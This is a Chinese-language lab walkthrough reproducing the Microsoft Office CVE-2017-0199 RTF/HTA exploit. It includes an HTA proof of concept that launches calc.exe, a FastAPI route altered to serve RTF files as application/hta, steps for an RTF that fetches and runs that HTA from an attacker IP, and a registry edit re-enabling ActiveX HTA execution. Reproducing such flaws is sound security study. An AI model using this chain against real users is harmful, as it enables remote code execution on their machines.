 # CVE-2017-0199

> [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
>
> [code2sec.com/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md at master · bit4woo/code2sec.com · GitHub](https://github.com/bit4woo/code2sec.com/blob/master/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md)

---

## 简介

> [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)

CVE-2017-0199是首个Microsoft Office RTF漏洞，漏洞发布日期为2017年4月11日

受影响系统包括：

- Microsoft Office 2016
- Microsoft Office 2013
- Microsoft Office 2010
- Microsoft Office 2007

当用户打开包含嵌入式漏洞的文档时，此漏洞允许恶意攻击者下载并执行包含PowerShell命令的Visual Basic脚本。

微软官方对该漏洞的通告：[CVE-2017-0199 - Security Update Guide - Microsoft - Microsoft Office/WordPad Remote Code Execution Vulnerability w/Windows](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2017-0199)

---

## 复现环境

- 靶机: 
  - [Win7](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2016](https://msdn.itellyou.cn/)
  - IP: `192.168.5.11`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

> [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)

很多漏洞复现的文章都提到了使用 Apache 服务器, 其目的都指向自定义响应 `Content-type`

因此这里我们只需要能够自定义响应的 `Content-type` 就不一定需要 Apache 服务器

可以用 [Python/use_case/FileServer/FastAPI/fileserver.py · main · 33 2 / DailyNotesCodeBackup · GitLab](https://gitlab.com/ayusummer233/dailynotescodebackup/-/blob/main/Python/use_case/FileServer/FastAPI/fileserver.py?ref_type=heads)

这里也以这个 Fastapi 写的 FileServer 为例

在路由里指定 `Content-type` 即可

----

编写一个弹计算器的 POC:

`calc.hta`

```xml
<script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```

---

用 Office2016 新建一个 word 文档保存为 `office2016.docx` 将其放到 FileServer 的 `upload` 目录下并重命名为 `office2016docx.rtf`

![image-20240614095147296](http://cdn.ayusummer233.top/DailyNotes/202406140951201.png)

在靶机上用 Office2016 新建一个 word 文档, `插入->对象->由文件创建`

填写 FileServer 中刚才放置的 `office2016docx.rtf` 的下载链接, 这里是 `http://100.1.1.131:8000/download/office2016docx.rtf`

并勾选 `链接到文件`

![image-20240613180746628](http://cdn.ayusummer233.top/DailyNotes/202406131807154.png)

点击 `确定` 后即会请求该文件

![image-20240613180914152](http://cdn.ayusummer233.top/DailyNotes/202406131809247.png)

保存为 rtf 文件 `Office2016docx-insert-rtf.rtf`

![image-20240613181301997](http://cdn.ayusummer233.top/DailyNotes/202406131813096.png)

---

解下来就需要对这个链接的 rtf 文件动手了, 使用前面编写的弹计算器的 POC `calc.hta` 重命名并替换掉前面  FileServer 上放置的 `office2016docx.rtf`

![image-20240614095637939](http://cdn.ayusummer233.top/DailyNotes/202406140956046.png)

然后改下 `fileserver.py` 中文件下载的路由, 让下载 `rtf` 文件的响应中的 `Content-type` 为 `application/hta`:

```python
@app.get("/download/{file_path:path}")
async def download_file(file_path: str):
    file_location = UPLOAD_DIRECTORY / Path(file_path)
    if file_location.exists():
        if file_location.suffix == ".rtf":
            media_type = "application/hta"
        else:
            return FileResponse(str(file_location))

        return FileResponse(str(file_location), media_type=media_type)
```

![image-20240614095814853](http://cdn.ayusummer233.top/DailyNotes/202406140958961.png)

---

双击打开靶机 Win7 上的 `Office2016docx-insert-rtf.rtf`

如果报错如下:

![image-20240614095953403](http://cdn.ayusummer233.top/DailyNotes/202406140959527.png)

根据 [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507) 中提到的, 这是因为注册表默认禁用了ActiveX执行HTA

解决方案为将注册表项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}` 从 `400` 改为 `0`

![image-20240614102032895](http://cdn.ayusummer233.top/DailyNotes/202406141020003.png)

![image-20240614102057166](http://cdn.ayusummer233.top/DailyNotes/202406141020290.png)





`Win+R -> 输入regedit -> 回车` 





---



